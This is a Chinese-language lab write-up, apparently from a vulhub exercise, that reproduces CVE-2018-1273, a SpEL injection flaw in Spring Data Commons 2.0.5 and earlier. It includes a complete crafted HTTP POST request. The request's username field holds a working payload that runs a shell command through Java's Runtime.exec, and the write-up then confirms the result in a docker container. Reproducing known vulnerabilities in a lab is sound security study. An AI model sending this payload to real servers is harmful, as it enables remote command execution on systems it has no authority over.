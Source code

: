 

# Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->SpEL命令执行

### 0x01漏洞介绍

​			Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

​			影响版本

  		Spring Data Commons <=2.0.5

### 0x02漏洞复现

​		访问`http://your-ip:8080/users`，将可以看到一个用户注册页面

![Spring_Data_Commons_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Commons_RCE_1.jpg)

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功

![Spring_Data_Commons_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Commons_RCE_2.jpg)

